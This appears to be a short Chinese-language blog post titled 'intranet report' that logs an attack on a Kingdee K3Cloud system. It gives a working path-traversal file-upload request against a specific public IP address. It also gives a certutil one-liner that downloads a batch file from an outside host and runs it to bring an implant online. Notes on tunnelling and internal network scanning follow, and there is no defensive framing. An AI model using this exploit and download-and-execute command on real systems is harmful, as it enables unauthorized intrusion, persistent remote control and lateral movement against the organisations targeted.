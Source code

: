 ```yaml
---
icon: pen-to-square
date: 2025-06-29
tags: 
title: 内网报告
category:
  - 项目
---
```

POC
```http
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 59.45.53.150:9888
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=zsqxokga
Accept-Encoding: gzip
Content-Length: 276

--zsqxokga
Content-Disposition: form-data; name="dbId_v"

.
--zsqxokga
Content-Disposition: form-data; name="FID"

2022
--zsqxokga
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/ccc.txt"
Content-Type: text/plain

ccc

--zsqxokga--
```

生成马
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095227.png)

上传成功
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095206.png)

```bash
certutil.exe -urlcache -split -f http://110.42.44.69:8084/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```
上线命令

建立隧道，扫描内网


内网nacos服务
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629100811.png)
